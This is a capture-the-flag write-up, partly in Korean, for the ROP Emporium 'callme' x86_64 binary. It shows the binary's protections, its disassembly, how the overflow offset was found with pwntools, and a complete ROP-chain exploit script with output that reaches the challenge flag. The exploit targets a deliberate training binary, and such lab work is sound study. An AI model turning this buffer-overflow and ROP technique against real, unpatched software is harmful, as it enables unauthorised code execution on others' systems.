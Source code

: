 # [callme](https://ropemporium.com/challenge/callme.html)
<br />

**Discription:**
> Reliably make consecutive calls to imported functions.
Use some new techniques and learn about the Procedure Linkage Table.
<br />
<br />

# x86_64

**Binary Protections:**
```yaml
  [*] '/home/kali/pico/callme'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```
<br />

> [!WARNING]
> `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`
> <br />
> `callme_two(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`
> <br />
> `callme_three(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`
> 
> 인자를 올바를 순서로 각 함수를 순서대로 호출해야 FLAG가 출력됩니다.

<br />


```yaml
$ objdump -d callme

callme:     file format elf64-x86-64

Disassembly of section .text:
...
00000000004008f2 <usefulFunction>:
  4008f2:       55                      push   %rbp
  4008f3:       48 89 e5                mov    %rsp,%rbp
  4008f6:       ba 06 00 00 00          mov    $0x6,%edx
  4008fb:       be 05 00 00 00          mov    $0x5,%esi
  400900:       bf 04 00 00 00          mov    $0x4,%edi
  400905:       e8 e6 fd ff ff          call   4006f0 <callme_three@plt>
  40090a:       ba 06 00 00 00          mov    $0x6,%edx
  40090f:       be 05 00 00 00          mov    $0x5,%esi
  400914:       bf 04 00 00 00          mov    $0x4,%edi
  400919:       e8 22 fe ff ff          call   400740 <callme_two@plt>
  40091e:       ba 06 00 00 00          mov    $0x6,%edx
  400923:       be 05 00 00 00          mov    $0x5,%esi
  400928:       bf 04 00 00 00          mov    $0x4,%edi
  40092d:       e8 ee fd ff ff          call   400720 <callme_one@plt>
  400932:       bf 01 00 00 00          mov    $0x1,%edi
  400937:       e8 14 fe ff ff          call   400750 <exit@plt>
000000000040093c <usefulGadgets>:
  40093c:       5f                      pop    %rdi
  40093d:       5e                      pop    %rsi
  40093e:       5a                      pop    %rdx
  40093f:       c3                      ret
...
```
위 결과로 `usefulFunction`, `usefulGadgets`는 풀이에 필요한 정보를 담고 있음을 알 수 있습니다.

```yaml
$ python3 -q
>>> from pwn import *
>>> p = process("./callme")
[+] Starting local process './callme': pid 1512
>>> p.sendline(cyclic(600, n=8))
>>> p.wait()
[*] Process './callme' stopped with exit code -11 (SIGSEGV) (pid 1512)
>>> Corefile("./core.1512")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/core.1512'
    Arch:      amd64-64-little
    RIP:       0x4008f1
    RSP:       0x7ffe6f9cb538
    Exe:       '/home/kali/pico/callme' (0x400000)
    Fault:     0x6161616161616166
Corefile('/home/kali/pico/core.1512')
>>> cyclic_find(0x6161616161616166, n=8)
40
```
오프셋은 40 입니다. 해당 정보들로 공격 코드를 작성할 수 있습니다.

<br />

```python
from pwn import *

context.log_level = "error"
context.arch = "amd64"

p = process("./callme")

gadgets = 0x000000000040093c
func = [0x400720, 0x400740, 0x4006f0]
arguments = [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d]

pay = flat(
	{40:gadgets}, arguments, func[0],
	gadgets, arguments, func[1],
	gadgets, arguments, func[2]
)

p.sendline(pay)
p.interactive()
```
```bash
$ python3 test.py
callme by ROP Emporium
x86_64

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
$
```
